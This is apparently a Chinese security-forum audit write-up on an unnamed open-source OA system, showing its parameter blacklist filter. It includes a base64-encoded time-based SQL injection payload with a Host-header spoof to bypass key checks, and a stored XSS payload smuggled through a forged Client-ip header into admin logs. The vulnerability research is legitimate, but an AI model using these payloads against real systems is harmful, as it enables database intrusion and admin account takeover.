# 奇安信攻防社区-某开源OA系统的审计记录

### 某开源OA系统的审计记录

对某开源OA参数过滤情况下的审计过程记录

# 某OA系统的审计记录

## 0x00 前言

对某开源OA参数过滤情况下的审计过程记录，

## 0x01 路由

该cms主要是通过`m`、`a`、`d`来确定



默认是的`webadmin`目录下，通过`d`和`m`确定调用哪个文件。当文件位置如果是`webadmin/$d/a/bAction.php`时，a和b用`|`分割传入

即`m=a|b`。

然后通过与文件名前缀同名类名来初始化类，创建类对象



创建类对象时会调用父类`mainAction`的`__construct`方法来初始化


每个实现类都会实现`initAction`方法进行初始化操作

最后就是根据参数`a`来定位类中具体要调用哪个函数处理请求

## 0x02 前期坑点

审计过程中发现该cms中`get()`和`post()`获取参数时会对输入进行黑名单检测

```php
public function get($name,$dev='', $lx=0)
{
   $val=$dev;
   if(isset($_GET[$name]))$val=$_GET[$name];
   if($this->isempt($val))$val=$dev;
   return $this->jmuncode($val, $lx, $name);
}

public function post($name,$dev='', $lx=0)
{
    $val  = '';
    if(isset($_POST[$name])){$val=$_POST[$name];}else{if(isset($_GET[$name]))$val=$_GET[$name];}
    if($this->isempt($val))$val=$dev;
    return $this->jmuncode($val, $lx, $name);
}

public function jmuncode($s, $lx=0, $na='')
{
    $jmbo = false;$s = (string)$s;
    if($lx==3)$jmbo = $this->isjm($s);
    if(substr($s, 0, 7)=='rockjm_' || $lx == 1 || $jmbo){
        $s = str_replace('rockjm_', '', $s);
        $s = $this->jm->uncrypt($s);
        if($lx==1){
            $jmbo = $this->isjm($s);
            if($jmbo)$s = $this->jm->uncrypt($s);
        }
    }
    if(substr($s, 0, 7)=='basejm_' || $lx==5){
        $s = str_replace('basejm_', '', $s);
        $s = $this->jm->base64decode($s);
    }
    $s=str_replace("'", '&#39', $s);
    $s=str_replace('%20', '', $s);
    if($lx==2)$s=str_replace(array('{','}'), array('[H1]','[H2]'), $s);
    $str = strtolower($s);
    foreach($this->lvlaras as $v1)if($this->contain($str, $v1)){
        $this->debug(''.$na.'《'.$s.'》error:包含非法字符《'.$v1.'》','params_err');
        $s = $this->lvlarrep($str, $v1);
        $str = $s;
    }
    $cslv = array('m','a','p','d','ip','web','host','ajaxbool','token','adminid');
    if(in_array($na, $cslv))$s = $this->xssrepstr($s);
    return $this->reteistrs($s);
}
```

首先是对单引号和空格做编码和去除操作，紧接着遍历`lvlaras`数组检测参数

```php
$this->lvlaras  = explode(',','select ,
alter table,delete ,drop ,update ,insert into,load_file,/*,*/,union,<script,</script,sleep(,outfile,eval(,user(,phpinfo(),select*,union%20,sleep%20,select%20,delete%20,drop%20,and%20');
```

可以看到他这个过滤还是挺全的，所以直接`get()`和`post()`获取的数据时进行了过滤操作无法做利用。这个时候我们可以找找解密操作请求参数值的操作。

搜索`\(\$this\-\>get\(`



我们发现有`base64decode()`和`uncrypt()`这种解密解码函数进行了嵌套，我们对这种有问题的地方进行细化审计，暂且只关注controller层的文件，也就是xxxAction.php。

## 0x03 SQL注入

在`openxxClassAction`类中



可以看到该方法通过base64解密`nickName`和`avatarUrl`参数，构建了uarr数组，并且传入到$db->record()，感觉这个函数应该会做数据库查询，跟进看看

```php
public function record($arr, $where='')
{
    return $this->db->record($this->table, $arr, $where);
}
```

其实是调用了mysql.php的record方法

```php
public function record($table,$array,$where='')
{
   $addbool   = true;
   if(!$this->isempt($where))$addbool=false;
   $cont     = '';
   if(is_array($array)){
      foreach($array as $key=>$val){
         $cont.=",`$key`=".$this->toaddval($val)."";
      }
      $cont  = substr($cont,1);
   }else{
      $cont  = $array;
   }
   $table = $this->gettables($table);
   if($addbool){
      $sql="insert into $table set $cont";
   }else{
      $where = $this->getwhere($where);
      $sql="update $table set $cont where $where";
   }
   return $this->tranbegin($sql);
}
```

将数组键值对依次插入SQL语句插入或是更新数据，我们调用该方法最后的sql语句为

```sql
insert into $table set $key = $value ... where `openid`=xxx;   //这里的$value变量即我们传入的$nickName参数值
```

于是我们构造payload为

```php
/index.php?m=openxxx|openapi&d=xxx&a=data&ajaxbool=0&nickName=MScgYW5kIHNsZWVwKDUpIw==

nickName为编码后的1' and sleep(5)#
```


发现延迟并没有生效，并且提示`openkey not access`。咦~，哪里有问题呢

搜索`openkey not access`，原来是该类的父类中的`initAction()`做了判断



这里需要进行一个openkey的校验，看到24行的if判断，如果HOST为127.0.0.1或者包含”192.168”的话就会跳过这个校验，此处的HOST就是$\_SERVER\['HTTP\_HOST'\]，也是我们可控的



我们将请求中host替换为127.0.0.1，成功绕过执行延时。

## 0x04 存储型xss

审计发现未授权可以访问的接口都是继承自`ActionNot`，而`ActionNot`又继承自`Action`类



可以看到，ActionNot类将大多数xxxAjax方法覆盖为空了，在笔者仔细的检查下，还剩下getoptionAjax方法没有被重写，我们看一下getoptionAjax方法的逻辑。如图

```php
public function getoptionAjax()
{
    $num = $this->get('num');
    $arr = m('option')->getdata($num);
    echo json_encode($arr);
}
```

主要逻辑是获取num参数然后调用model查询，跟进到`getdata`



可以看到，`getpids`方法中调用了`getmou`方法，这里`$num`由于是get方法传递过来的，虽然经过了之前提到`get()`处理中层层过滤，但是在那几层过滤中，是没有过滤反斜杠（\\）的。

最终调用mysql.php中的`query`方法执行sql语句



当我们执行SQL报错时会将错误写入到日志中。当我们构造参入的`num`最后一位为反斜杠时，SQL语句变为，`select xxx from xxx where abc=’\’`，至此SQL语句出现问题，从而抛出异常，触发debug的addlogs方法，在该cms中，debug是默认被开启的，我们跟进addlogs方法，如图：



这里的ip是通过getclientip方法获取的，

```php
/**
    *   特殊字符过滤
    */
    public function xssrepstr($str)
    {
        $xpd  = explode(',','(,), ,<,>,\\,*,&,%,$,^,[,],{,},!,@,#,",+,?,;\'');
        $xpd[]= "\n";
        return str_ireplace($xpd, '', $str);
    }

    /*
    *   获取IP
    */
    public function getclientip()
    {
        $ip = 'unknow';
        if(isset($_SERVER['HTTP_CLIENT_IP'])){
            $ip = $_SERVER['HTTP_CLIENT_IP'];
        }else if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
            $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
        }else if(isset($_SERVER['REMOTE_ADDR'])){
            $ip = $_SERVER['REMOTE_ADDR'];
        }
        $ip= htmlspecialchars($this->xssrepstr($ip));
        return $ip;
    }
```

IP是可以被伪造的，虽然过滤了空格，但是我们可以使用tab来进行绕过，而xxs语句可以用hex编码写入。这里最大的痛点就是将圆括号给过滤掉了，导致我们无法进行sql注入，

我们跟进insert方法，如图：

```php
public function insert($arr)
{
   $nid = 0;
   if($this->record($arr, ''))$nid = $this->db->insert_id();
   return $nid;
}
```

这里调用了SQL注入中提到的record函数，用来插入数据

至此，我们可以在log表中插入xss代码，当管理员查看“日志管理”功能时，触发xss

构造payload为

```php
Client-ip: 111',web=0x3c7363726970743e616c65727428273127293c2f7363726970743e    --  '
```

管理员登录查看日志成功触发xss



## 0x05 总结

审计时对请求传参进行过滤可以关注一下对json格式、base64解密等操作请求传参点，可能会出现意想不到的绕过。
